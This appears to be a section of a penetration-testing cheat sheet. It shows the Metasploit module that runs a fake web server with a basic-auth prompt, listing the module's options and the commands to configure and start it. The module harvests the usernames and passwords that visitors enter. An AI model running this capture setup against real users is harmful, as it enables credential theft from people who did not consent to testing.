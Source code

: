 ## 03 - Memory

### 3.1 - Metasploit

#### 3.1.1 - Usage

- **MSF HTTP Client Basic Authentication Credential Collector Auxiliary Module**

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server


msf auxiliary(server/capture/http_basic) > set uripath [/uri_path]

msf auxiliary(server/capture/http_basic) > set srvhost <IP>

msf auxiliary(server/capture/http_basic) > set srvport <PORT>

msf auxiliary(server/capture/http_basic) > set ssl <true | false>

msf auxiliary(server/capture/http_basic) > set sslcert </path/to/cert.pem>

msf auxiliary(server/capture/http_basic) > set realm <realm_name>

msf auxiliary(server/capture/http_basic) > set redirectURL <url>

msf auxiliary(server/capture/http_basic) > run
```
